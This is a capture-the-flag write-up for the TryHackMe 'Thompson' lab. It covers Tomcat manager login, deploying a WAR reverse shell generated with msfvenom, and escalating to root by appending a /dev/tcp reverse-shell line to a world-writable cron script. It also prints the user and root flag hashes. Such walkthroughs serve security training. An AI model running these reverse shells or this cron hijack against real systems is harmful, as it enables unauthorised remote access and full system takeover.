

# Thompson

---

---

# Enumeration




# Exploit

Navigate to `/manager/html` → Pop up a window requires `username` & `password` → Click `Cancel` → It will display this page


Reload the page and use the credential above to sign in


We are in the **************manager************** page where we can manage the page with several services (add,create,deploy,start,stop,… paths,services,…)


Scroll down and pay focus on the ************Deploy************ tab → It contains a form where we can upload `WAR` file and ************deploy************ it


# Gain Access

Use the `msfvenom` with cheat sheet from source [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom) to create a reverse shell

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Thompson]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.8.97.213" LPORT=4444 -f war > shell.war
Payload size: 1087 bytes
Final size of war file: 1087 bytes
```


Then upload and deploy it on the **manager** page


The file was uploaded and deployed succeed! 


On local machine, start `Netcat Listener` with defined port in the shell and navigate to the path where the uploaded shell was deployed


Now we are connected!


Navigate to `/home/jack/` to get the ********user******** flag from `user.txt`

```tsx
$ cd home/jack
$ ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jun 19 00:09 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
$ cat user.txt
39400c90bc683a41a8935e4719f181bf
```

# Privilege Escalation → Root

Look at `crontab` file → There is a command which is executed automatically by `root` user 

```tsx
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
```

Find out what does the `id.sh` do

```bash
#!/bin/bash
id > test.txt
```

As long as the `id.sh` file is writable → We can modify it to execute a reverse shell

```
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
```

Use the following command and add it into the file

```tsx
$ echo "bash -i >& /dev/tcp/10.8.97.213/4242 0>&1" >> id.sh
```

Let’s check the file one more time

```bash
#!/bin/bash                                                                                                         
id > test.txt
bash -i >& /dev/tcp/10.8.97.213/4242 0>&1
```

The reverse-shell command was written correctly → Start the `Netcat Listener` on the local machine


Wait for a few second and we are ********root******** now → Navigate to `/root` directory and get the **********root********** flag

```tsx
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/jack# cd /root
root@ubuntu:~# ls -la
total 24
drwx------  3 root root 4096 Aug 14  2019 .                                                 
drwxr-xr-x 22 root root 4096 Aug 14  2019 ..                                                
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc                                           
drwxr-xr-x  2 root root 4096 Aug 14  2019 .nano                                             
-rw-r--r--  1 root root  148 Aug 17  2015 .profile                                          
-rw-r--r--  1 root root   33 Aug 14  2019 root.txt                                          
root@ubuntu:~# cat root.txt                                                                                                                                       
d89d5391984c0450a95497153ae7ca3a                                                            
```